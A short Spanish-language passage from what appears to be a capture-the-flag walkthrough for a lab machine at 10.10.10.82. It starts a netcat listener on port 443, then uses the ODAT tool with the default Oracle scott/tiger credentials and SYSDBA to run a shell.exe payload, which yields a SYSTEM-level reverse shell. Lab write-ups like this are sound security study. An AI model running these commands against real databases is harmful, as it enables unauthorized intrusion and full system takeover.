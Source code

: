 ## Vuln exploit & Gaining Access {-}

### Ganando accesso con ODAT {-}

Nos ponemos en escucha por el puerto 443

```bash
rlwrap nc -nlvp 443
```

Intentamos ejecutar el exploit con odat

```bash
python3 odat.py --help
python3 odat.py externaltable -s 10.10.10.82 -d XE -U "scott" -P "tiger" --sysdba --exec /Temp shell.exe
```

Ya hemos ganado accesso al systema y ademas somos nt authority\system que significa que no es necessario hacer escalada de privilegios.
